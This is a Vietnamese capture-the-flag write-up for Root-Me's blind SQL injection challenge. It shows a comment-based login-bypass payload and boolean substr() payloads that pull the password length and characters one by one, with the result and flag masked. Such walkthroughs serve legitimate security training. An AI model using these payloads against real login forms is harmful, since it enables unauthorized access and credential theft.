 # [SQL Injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)

Thử fuzz với payload `admin’-- -` ta đã access thành công qua Authentication v 0.02. Tuy vậy, website chẳng trả về cho thông tin password gì cả:

![](./media/image1.png)

Mở burpsuite và tìm kiếm thôi. Thử thay đổi payload bằng cách sử dụng union select thì phát hiện ra website đã filter các keyword chông SQL Injection với thông báo **“Injection detected”**:

![](./media/image2.png)

Với blind injection, ta thực hiện mò thử với các cấu trúc mà server database hay tạo, fuzz thôi:

![](./media/image3.png)

Với payload:

`username=admin%27+AND+(select+username+from+sqlite_master)='admin'--+-&password=admin%27--+-`

Server trả về là TRUE fuzz tìm password bằng substr() thôi!

1.  **Tìm length(password):**

![](./media/image4.png)

-  Length(password) == 8

1.  **Tìm password:**

Payload để fuzz:

*username=admin%27+AND+substr((select+password+from+sqlite\_master),1,1)='a'--+-&password=admin%27--+-*

![](./media/image5.png)

Sau một khoảng thời gian, ta đã ghép được `password: e2a*********3i`

![](./media/image6.png)

- Flag: "****************************"
